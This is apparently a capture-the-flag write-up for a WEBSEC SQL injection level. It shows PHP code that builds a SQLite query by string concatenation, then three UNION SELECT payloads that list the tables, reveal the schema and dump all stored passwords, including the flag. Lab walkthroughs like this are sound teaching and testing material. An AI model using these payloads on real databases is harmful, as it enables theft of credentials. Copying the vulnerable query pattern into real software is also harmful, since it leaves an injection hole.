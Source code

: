 ```
class LevelOne {
    public function doQuery($injection) {
        $pdo = new SQLite3('database.db', SQLITE3_OPEN_READONLY);
        
        $query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1';
        $getUsers = $pdo->query($query);
        $users = $getUsers->fetchArray(SQLITE3_ASSOC);

        if ($users) {
            return $users;
        }

        return false;
    }
}
```

STEP 1: 0 union SELECT 1,group_concat(tbl_name) FROM sqlite_master WHERE type = 'table'--
OUTPUT: Other User Details: 
        id -> 1
        username -> users
        (Table name)


STEP 2: 0 union select 1,sql from sqlite_master--
OUTPUT: Other User Details: 
        id -> 1
        username -> CREATE TABLE users(id int(7), username varchar(255), password varchar(255))
        (Column name)

STEP 3: 0 UNION SELECT 1, GROUP_CONCAT(password) FROM users--
OUTPUT: Other User Details: 
        id -> 1
        username -> UnrelatedPassword,ExampleUserPassword,WEBSEC{Simple_SQLite_Injection}
